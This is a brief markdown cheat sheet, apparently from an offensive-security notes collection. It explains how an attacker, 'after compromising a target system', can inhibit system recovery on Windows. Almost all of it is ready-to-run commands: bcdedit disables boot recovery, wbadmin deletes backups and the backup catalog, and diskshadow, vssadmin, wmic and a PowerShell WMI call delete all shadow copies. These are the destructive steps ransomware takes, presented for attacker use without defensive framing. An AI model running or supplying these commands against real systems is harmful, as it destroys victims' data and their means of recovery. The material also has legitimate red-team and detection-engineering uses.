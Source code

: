# Inhibit System Recovery

After compromising a target system, we can delete backups or shadow copies to inhibit system recovery.  There are various ways to do that.

## Disable System Recovery

```powershell
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled no
```

## Delete Backups

- Wbadmin

    ```powershell
    wbadmin delete backup

    # This command deletes Windows Backup Catalog
    wbadmin delete catalog -quiet
    ```

## Delete Shadow Copies

- Diskshadow

    ```powershell
    diskshadow delete shadows all
    ```

- Get-WmiObject

    ```powershell
    Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
    ```

- Vssadmin

    ```powershell
    vssadmin delete shadows /all /quiet
    ```

- Wmic

    ```powershell
    wmic shadowcopy delete
    ```